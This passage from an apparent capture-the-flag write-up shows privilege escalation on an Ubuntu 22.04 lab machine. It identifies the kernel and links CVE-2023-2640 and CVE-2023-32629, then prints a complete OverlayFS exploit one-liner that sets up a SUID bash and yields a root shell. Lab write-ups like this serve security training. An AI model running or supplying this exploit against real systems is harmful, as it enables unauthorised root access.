 Check kernel version and googling.

```shell
metalytics@analytics:/tmp/test$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
metalytics@analytics:/tmp/test$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.3 LTS"
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

![](img/analytics12.png)

From a link to reddit, vulnerabilities CVE-2023-2640 and CVE-2023-32629 are discovered. A POC for vulnerability is available at: [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).

```shell
metalytics@analytics:/$ cd /tmp/
metalytics@analytics:/tmp$ mkdir poc
metalytics@analytics:/tmp$ cd poc/
metalytics@analytics:/tmp/poc$ whoami
metalytics
metalytics@analytics:/tmp/poc$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@analytics:/tmp/poc# whoami
root
```
